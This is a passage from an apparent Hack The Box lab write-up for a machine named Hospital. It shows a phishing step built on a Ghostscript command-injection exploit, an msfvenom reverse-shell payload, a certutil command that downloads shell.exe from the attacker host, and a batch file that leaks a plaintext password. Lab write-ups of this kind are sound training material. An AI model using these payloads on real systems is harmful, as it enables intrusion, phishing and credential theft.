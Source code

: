 ![hospital6](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9ddaabae-2eff-4ff5-9cab-c8af1fc32ca4)

Knowing this, we prepare a phising attack for which we need to look for ghostscript vulnerabilities. Investigation leads to this exploit https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection, which allows injection of commands in `.eps` files.<br>
Next step is then to generate a `msfevenom`` payload for windows.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.xxx.xxx lport=1919 -f exe -a x64 --platform windows -o shell.exe
```
Now, to succeed in the phising attack, what seems to work is to divide the process in 2 steps.<brZ
First, inject a payload  in a `project.eps` file which will download the `shell.exe`.
```markwdown
> python3 ./exploit.py -g -p 'certutil -urlcache -split -f "http://10.10.xxx.xxx/shell.exe" shell.exe' -x eps
```
A file `malicious.eps` is generated. Rename it to `project.eps`
```markdown
> mv malicious.eps project.eps
```
Start a python HTTP server and reply the email attaching the `project.eps` file.

![hospital7](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/caeb638c-f37c-4f1d-bd6f-8e637d9976e5)

Shortly after, a request on the python server is registered to download the `shell.exe` file.<br>
Next step is to execute the shell in the server. For this we will repeat the procedure but the command to be injected in hte `.eps` file will just execute the shell previously downloaded by the host.<br>
```markwdown
> python3 ./exploit.py -g -p 'shell.exe' -x eps
```
A file `malicious.eps` is generated. Rename it to `project.eps`
```markdown
> mv malicious.eps project.eps
```
Start a listener on port 1919 and reply the email again. Shortly after, a reverse shell is received for user `drbrown`.<br>
In the documents folder of user `drbrown` we find a file called `ghostscript.bat` which we inspect to get the user's password.
```markdwon
> type ghostscript.bat 
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
exit
```
We use this credential to login in the remote desktop service.

![hospital8](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/d8056ee1-b350-4138-a516-2c6c8d1ed6a7)

And finally we are able to get the `user.txt` flag.
### PHASE 3. System
Enumerate the system info.
```markdwon
>systeminfo

Host Name:                 DC
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```
